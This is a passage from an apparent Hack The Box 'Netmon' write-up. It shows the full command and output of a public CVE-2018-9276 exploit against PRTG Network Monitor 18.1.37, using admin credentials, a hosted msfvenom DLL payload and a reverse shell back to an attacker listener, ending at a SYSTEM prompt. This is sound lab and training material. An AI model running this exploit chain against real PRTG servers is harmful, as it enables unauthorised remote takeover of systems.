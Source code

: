 


# Shell as `SYSTEM`

Given the version of the PRTG Network Monitor is 18.1.37, I googled to find exploits.
And I found one well-designed exploit [repo](https://github.com/A1vinSmith/CVE-2018-9276) targetting CVE-2018-9276.

This one applies to PRTG version under 18.2.39, so the target is applicable.

```bash
┌──(kali㉿kali)-[~/htb/netmon/CVE-2018-9276]
└─$ python exploit.py -i 10.10.10.152 -p 80 --lhost 10.10.14.4 --lport 9000 --user prtgadmin --password 'PrTg@dmin2019'
/home/kali/htb/netmon/CVE-2018-9276/exploit.py:259: SyntaxWarning: invalid escape sequence '\{'
  print(event + "Hosting payload at [\\\\{}\{}]".format(lhost, shareName))
[+] [PRTG/18.1.37.13946] is Vulnerable!

[*] Exploiting [10.10.10.152:80] as [prtgadmin/PrTg@dmin2019]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] File staged at [C:\Users\Public\tester.txt] successfully with objid of [2018]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Notification with objid [2018] staged for execution
[*] Generate msfvenom payload with [LHOST=10.10.14.4 LPORT=9000 OUTPUT=/tmp/wehcggxy.dll]
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 9216 bytes
/home/kali/htb/netmon/CVE-2018-9276/exploit.py:294: DeprecationWarning: setName() is deprecated, set the name attribute instead
  impacket.setName('Impacket')
/home/kali/htb/netmon/CVE-2018-9276/exploit.py:295: DeprecationWarning: setDaemon() is deprecated, set the daemon attribute instead
  impacket.setDaemon(True)
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Hosting payload at [\\10.10.14.4\CUPRLHUK]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Command staged at [C:\Users\Public\tester.txt] successfully with objid of [2019]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Notification with objid [2019] staged for execution
[*] Attempting to kill the impacket thread
[-] Impacket will maintain its own thread for active connections, so you may find it's still listening on <LHOST>:445!
[-] ps aux | grep <script name> and kill -9 <pid> if it is still running :)
[-] The connection will eventually time out.

[+] Listening on [10.10.14.4:9000 for the reverse shell!]
listening on [any] 9000 ...
[*] Incoming connection (10.10.10.152,53684)
[*] AUTHENTICATE_MESSAGE (\,NETMON)
[*] User NETMON\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.152] 53693
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>[*] Disconnecting Share(1:IPC$)

C:\Windows\system32>whoami
whoami
```